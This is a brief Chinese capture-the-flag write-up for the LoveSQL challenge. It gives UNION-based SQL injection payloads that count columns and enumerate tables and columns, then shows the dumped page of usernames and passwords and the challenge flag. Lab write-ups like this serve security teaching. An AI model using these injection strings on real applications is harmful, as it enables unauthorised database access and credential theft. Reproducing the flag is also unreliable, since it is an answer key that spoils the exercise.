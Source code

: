 ## [极客大挑战 2019]LoveSQL

这个好像是第一题的升级。。。。

![image-20240815110422925](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240815110422925.png)

```
cc906f97ec3f2a44c4263178c47b9f1d
```

1. `1' order by 4#`到四的时候报错，说明字段数是3
2. `1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#`
3. `1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='l0ve1ysq1'#`

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
	<title>check</title>
</head>
<div style="position: absolute;bottom: 0;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>

<body background='./image/background.jpg' style='background-repeat:no-repeat ;background-size:100% 100%; background-attachment: fixed;'>
					<br><br><br>
<h1 style='font-family:verdana;color:red;text-align:center;'>Login Success!</h1><br><br><br>
					</br>
    <p style='font-family:arial;color:#ffffff;font-size:30px;left:650px;position:absolute;'>Hello cl4y,glzjin,Z4cHAr7zCr,0xC4m3l,Ayrain,Akko,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,leixiao,flag！</p></br></br>
<p style='font-family:arial;color:#ffffff;font-size:30px;left:650px;position:absolute;'>Your password is 'wo_tai_nan_le,glzjin_wants_a_girlfriend,biao_ge_dddd_hm,linux_chuang_shi_ren,a_rua_rain,yan_shi_fu_de_mao_bo_he,cl4y,di_2_kuai_fu_ji,di_3_kuai_fu_ji,di_4_kuai_fu_ji,di_5_kuai_fu_ji,di_6_kuai_fu_ji,di_7_kuai_fu_ji,di_8_kuai_fu_ji,Syc_san_da_hacker,flag{c3f12931-47d4-49e7-86d0-39974f48d3a5}'</p>
</body>
</html>
```

得到flag

```
flag{c3f12931-47d4-49e7-86d0-39974f48d3a5}
```

